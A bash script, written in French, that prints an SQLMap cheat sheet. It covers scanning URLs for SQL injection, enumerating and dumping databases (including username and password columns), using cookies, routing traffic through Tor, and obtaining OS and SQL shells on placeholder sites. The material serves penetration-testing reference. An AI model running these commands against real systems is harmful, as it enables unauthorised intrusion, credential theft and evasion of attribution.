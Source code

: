 #!/bin/bash

echo "## SQLMap Cheat Sheet pour Console"

echo -e "\n### Commandes Automatiques"

echo -e "\n#### Scanner une URL de manière automatique"
echo "sqlmap -u \"http://siteatester.fr\""

echo -e "\n#### Scanner une URL avec un paramètre GET"
echo "sqlmap -u \"http://siteatester.fr?id=1\""

echo -e "\n#### Scanner une URL avec des paramètres POST"
echo "sqlmap -u \"http://siteatester.fr\" --data=\"PARAMETRE1=VALEUR1&PARAMETRE2=VALEUR2\""

echo -e "\n### Préciser les Paramètres"

echo -e "\n#### Préciser le paramètre sur lequel réaliser l’injection"
echo "sqlmap -u \"http://siteatester.fr?param1=valueur1&param2=valueur2\" -p param1"

echo -e "\n#### Préciser le type de base de données (mysql)"
echo "sqlmap -u \"http://siteatester.fr\" --dbms=mysql"

echo -e "\n### Listage"

echo -e "\n#### Lister les bases de données"
echo "sqlmap -u \"http://siteatester.fr?id=1\" --dbs"

echo -e "\n#### Lister les tables d’une base spécifique"
echo "sqlmap -u \"http://siteatester.fr\" -D \"nom_de_la_database\" --tables"

echo -e "\n#### Lister les colonnes d’une table spécifique"
echo "sqlmap -u \"http://siteatester.fr\" -D \"nom_de_la_database\" -T \"nom_de_la_table\" --columns"

echo -e "\n### Dump"

echo -e "\n#### Dump tout ce qu’SQLMap trouve"
echo "sqlmap -u \"http://siteatester.fr\" --dump"

echo -e "\n#### Dump une base de données spécifique"
echo "sqlmap -u \"http://siteatester.fr\" -D \"nom_de_la_database\" --dump"

echo -e "\n#### Dump une table spécifique"
echo "sqlmap -u \"http://siteatester.fr\" -D \"nom_de_la_database\" -T \"nom_de_la_table\" --dump"

echo -e "\n#### Dump seulement des colonnes spécifiques d’une table"
echo "sqlmap -u \"http://testsite.com/login.php\" -D site_db -T users -C username,password --dump"

echo -e "\n### Cookies"

echo -e "\n#### Utiliser des cookies dans la requête"
echo "sqlmap -u \"http://siteatester.fr\" --cookie=\"COOKIE1=VALEUR1;COOKIE2=VALEUR2\""

echo -e "\n### Proxy"

echo -e "\n#### Passer le trafic de SQLMap via un proxy"
echo "sqlmap -u \"http://siteatester.fr\" --proxy=http://proxy:port"

echo -e "\n#### Passer le trafic de SQLMap via Tor"
echo "sqlmap -u \"http://siteatester.fr\" --tor --tor-type=SOCKS5 --check-tor"

echo -e "\n### Reverse Shell"

echo -e "\n#### Obtenir un reverse shell OS"
echo "sqlmap -u \"http://siteatester.fr\" --os-shell"

echo -e "\n#### Obtenir un shell SQL"
echo "sqlmap -u \"http://siteatester.fr\" --sql-shell"

echo -e "\n### Autres Commandes Utiles"
# Ici vous pouvez continuer avec les autres commandes utiles que vous souhaitez ajouter

# Notez que cette approche simplifie la copie et le collage des commandes directement depuis la console.
